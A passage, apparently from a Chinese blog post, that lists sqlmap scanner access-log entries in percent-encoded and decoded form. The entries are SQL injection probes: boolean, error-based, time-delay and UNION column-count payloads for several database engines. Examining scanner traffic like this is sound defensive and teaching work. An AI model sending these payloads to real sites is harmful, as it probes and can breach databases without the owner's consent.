GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL--%20AND%20%28%27NTJB%27%3D%27NTJB HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%28%27oeMZ%27%3D%27oeMZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27ybnv%27%3D%27ybnv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27xgNZ%27%3D%27xgNZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27NcqU%27%3D%27NcqU HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27QwuM%27%3D%27QwuM HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27taty%27%3D%27taty HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27WMQh%27%3D%27WMQh HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27xCZi%27%3D%27xCZi HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28%27mLyg%27%3D%27mLyg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL--%20AND%20%27uZYX%27%3D%27uZYX HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%27sNHY%27%3D%27sNHY HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27kGUJ%27%3D%27kGUJ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27LgDK%27%3D%27LgDK HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27EVdv%27%3D%27EVdv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27rJml%27%3D%27rJml HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27DaKV%27%3D%27DaKV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27nUAD%27%3D%27nUAD HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27yeMd%27%3D%27yeMd HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%27ttBR%27%3D%27ttBR HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
</code></pre>
这些log有太多的百分号编码，稍微影响阅读，这里我帖一下转译完成的代码
<pre><code>GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=2904 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1"(''("(')( HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 8676=9977 AND (9633=9633 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 3925=3925 AND (9861=9861 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 636=7258 AND (5513=5513 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 4986=6711 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 3925=3925 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 3864=9683 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 940=4505 AND ('konc'='konc HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 3925=3925 AND ('FFCP'='FFCP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 7381=1001 AND ('OLcv'='OLcv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 2327=9115 AND 'Qlha'='Qlha HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 3925=3925 AND 'Wlgw'='Wlgw HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 1192=5861 AND 'mmuZ'='mmuZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND (7269=7269 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND ('kalg'='kalg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND (SELECT 8251 FROM(SELECT COUNT(*),CONCAT(CHAR(58,116,107,108,58),(SELECT (CASE WHEN (8251=8251) THEN 1 ELSE 0 END)),CHAR(58,102,112,117,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND 'bMbA'='bMbA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) AND (1279=1279 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) AND ('RfWr'='RfWr HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 3131=CAST(CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (3131=3131) THEN 1 ELSE 0 END))::text||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58) AS NUMERIC) AND 'uRAt'='uRAt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) AND (3395=3395 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) AND ('FJAP'='FJAP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 5622=CONVERT(INT,(CHAR(58)+CHAR(116)+CHAR(107)+CHAR(108)+CHAR(58)+(SELECT (CASE WHEN (5622=5622) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(102)+CHAR(112)+CHAR(117)+CHAR(58))) AND 'wdHo'='wdHo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) AND (1009=1009 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) AND ('ytpV'='ytpV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 8421=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(116)||CHR(107)||CHR(108)||CHR(58)||(SELECT (CASE WHEN (8421=8421) THEN 1 ELSE 0 END) FROM DUAL)||CHR(58)||CHR(102)||CHR(112)||CHR(117)||CHR(58)||CHR(62))) FROM DUAL) AND 'KQDt'='KQDt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1); SELECT SLEEP(5);--  AND (7560=7560 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1; SELECT SLEEP(5);-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1'); SELECT SLEEP(5);--  AND ('AfMz'='AfMz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1'; SELECT SLEEP(5);--  AND 'pIKO'='pIKO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1); SELECT PG_SLEEP(5);-- AND (3641=3641 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1; SELECT PG_SLEEP(5);-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1'); SELECT PG_SLEEP(5);-- AND ('mTPd'='mTPd HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1'; SELECT PG_SLEEP(5);-- AND 'lhez'='lhez HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1); WAITFOR DELAY '0:0:5';-- AND (5747=5747 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1; WAITFOR DELAY '0:0:5';-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1'); WAITFOR DELAY '0:0:5';-- AND ('iUug'='iUug HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1'; WAITFOR DELAY '0:0:5';-- AND 'oGtV'='oGtV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND SLEEP(5) AND (3924=3924 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND SLEEP(5) HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND SLEEP(5) AND ('vnCj'='vnCj HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND SLEEP(5) AND 'xHdS'='xHdS HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 851=(SELECT 851 FROM PG_SLEEP(5)) AND (7626=7626 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 851=(SELECT 851 FROM PG_SLEEP(5)) HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 851=(SELECT 851 FROM PG_SLEEP(5)) AND ('vrAE'='vrAE HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 851=(SELECT 851 FROM PG_SLEEP(5)) AND 'VcUg'='VcUg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) WAITFOR DELAY '0:0:5'-- AND (3376=3376 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 WAITFOR DELAY '0:0:5'-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') WAITFOR DELAY '0:0:5'-- AND ('cMqq'='cMqq HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' WAITFOR DELAY '0:0:5'-- AND 'QQdM'='QQdM HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) AND (4545=4545 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) AND ('JNkT'='JNkT HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' AND 7586=DBMS_PIPE.RECEIVE_MESSAGE(CHR(84)||CHR(97)||CHR(104)||CHR(110),5) AND 'YxKy'='YxKy HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL# AND (771=771 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL# AND (2265=2265 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL# AND (6668=6668 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL# AND (3039=3039 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# AND (7237=7237 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# AND (1361=1361 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (7315=7315 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (6174=6174 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (5136=5136 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND (2494=2494 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL# AND ('nymA'='nymA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL# AND ('ijmk'='ijmk HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL# AND ('oFxP'='oFxP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL# AND ('CWYo'='CWYo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# AND ('lxqZ'='lxqZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# AND ('DWNP'='DWNP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('byrs'='byrs HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('KEvQ'='KEvQ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('OLyg'='OLyg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND ('TOsV'='TOsV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL# AND 'mDCu'='mDCu HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL# AND 'VTxz'='VTxz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL# AND 'YmTa'='YmTa HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL# AND 'MMix'='MMix HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL# AND 'bXGh'='bXGh HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL# AND 'DuTO'='DuTO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'JVBX'='JVBX HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'xxHC'='xxHC HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'zReF'='zReF HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL# AND 'iOvN'='iOvN HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL-- AND (2876=2876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL-- AND (4969=4969 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL-- AND (1601=1601 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL-- AND (5858=5858 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND (67=67 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND (6756=6756 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (3876=3876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (1001=1001 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (7414=7414 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1) UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND (767=767 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL-- AND ('NTJB'='NTJB HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL-- AND ('oeMZ'='oeMZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
